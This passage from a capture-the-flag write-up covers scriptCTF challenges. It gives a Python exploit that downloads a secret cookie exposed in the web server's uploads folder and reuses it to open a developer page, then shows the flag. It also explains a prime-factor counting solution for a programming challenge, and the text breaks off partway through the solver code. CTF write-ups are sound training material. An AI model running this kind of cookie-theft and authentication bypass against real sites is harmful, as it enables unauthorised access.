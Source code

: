 
### Exploitation
```python
import requests
base_url = "http://play.scriptsorcerers.xyz:10374"
secret_cookie_url = f"{base_url}/static/uploads/secrets/secret_cookie.txt"
resp = requests.get(secret_cookie_url)
secret_cookie = resp.text.strip()
print(f"[+] Retrieved secret cookie: {secret_cookie}")
cookies = {"developer_secret_cookie": secret_cookie}
developer_url = f"{base_url}/developer"
resp = requests.get(developer_url, cookies=cookies)

print("[+] Response from server:")
print(resp.text)
```





**Flag:** `scriptCTF{my_c00k135_4r3_n0t_s4f3!_a10e88abbb71}`




## More Divisors (Programming, 425 pts)

---

### Challenge Description
Find the length of the longest subsequence of numbers (from a line sent by the server) such that the GCD of that subsequence is **greater than 1**. The server runs many rounds and sends a line containing many integers each round; you must reply the correct length every round. The challenge is interactive over TCP.

---

### Key idea / Observations
- A subsequence with GCD > 1 means all numbers in the subsequence share at least one common prime factor `p > 1`.
- Therefore, for each prime `p`, we can count how many numbers are divisible by `p`. The answer is the maximum count over all primes.
- Numbers `<= 1` can be ignored (they do not contribute).
- So the task reduces to factoring each number (or at least enumerating its distinct prime factors) and counting frequencies.

---

### Implementation (solve More Divisors)
```python
#!/usr/bin/env python3
import socket, re, time
from math import isqrt

HOST = 'play.scriptsorcerers.xyz'
PORT = 10133

def prime_factors(n):
    factors = set()
    if n % 2 == 0:
        factors.add(2)
        while n % 2 == 0:
            n //= 2
    f = 3
    while f * f <= n:
        if n % f == 0:
```